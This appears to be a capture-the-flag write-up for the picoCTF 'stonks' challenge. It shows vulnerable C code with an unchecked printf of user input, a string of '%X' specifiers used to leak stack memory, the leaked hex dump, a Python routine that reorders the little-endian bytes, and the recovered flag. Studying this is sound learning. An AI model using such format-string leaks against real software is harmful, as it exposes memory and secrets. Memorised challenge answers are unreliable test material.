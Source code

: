 ## description 

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine 
learning. I wouldn't believe you if you told me it's unsecure!

## solution
we are provided with the code. i looked through it for any inputs that i could give to program, and there was a spot were i could do some binary exploitation in order to get response with some memory 
```C 
char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);
```
i want to  get output in hexadecimal so i put in symbols "%X"
the more i put the longer the output
reponse i got : 
```
8AA7410804B00080489C3F7FB3D80FFFFFFFF18AA5160F7FC1110F7FB3DC708AA618028AA73F08AA74106F6369707B465443306C5F49345F74356D5F6C6C306D5F795F79336E3463646261653532FFE5007DF7FEEAF8F7FC1440E6D06E0010F7E50CE9F7FC20C0F7FB35C0F7FB3000FFE5C568F7E4168DF7FB35C08048ECAFFE5C5740F7FD5F09804B000F7FB3000F7FB3E20FFE5C5A8F7FDBD50F7FB4890E6D06E00F7FB3000804B000FFE5C5A88048C868AA5160FFE5C594FFE5C5A88048BE9F7FB33FC0FFE5C65CFFE5C654118AA5160E6D06E00FFE5C5C000F7DF6FA1F7FB3000F7FB30000
```
if i convert to string : 
```
Š§A°�€Hœ?³ØÿÿÿñŠ¥Á³ÜpŠ¦Š§?ªtocip{FTC0l_I4_t5m_ll0m_y_y3n4cdbae52ÿå�}÷þêø÷ü@æÐn�÷åé÷ü À÷û5À÷û0�ÿåÅh÷ä÷û5À€Hì¯þ\W@÷ý_	€K�³�³âþ\ZÛÕ´‰mà³�°�ÿåÅ¨€HÈhªQ`ÿåÅ”ÿåÅ¨€H¾Ÿ³?ÀÿåÆ\ÿåÆTŠ¥màþ\\�}öú³�³��??
```
i can see the flag but its in reverse order (memory is written in little endian then)

now just put every 4 characters bacwards to get the flag : 
```Python 
mixed_flag = "ocip{FTC0l_I4_t5m_ll0m_y_y3n4cdbae52ÿå�}"  
z=0  
for x in range(0,len(mixed_flag),4):  
    part = mixed_flag[x:x+4]  
    reversed = part[::-1]  
    print(reversed)
```
picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}
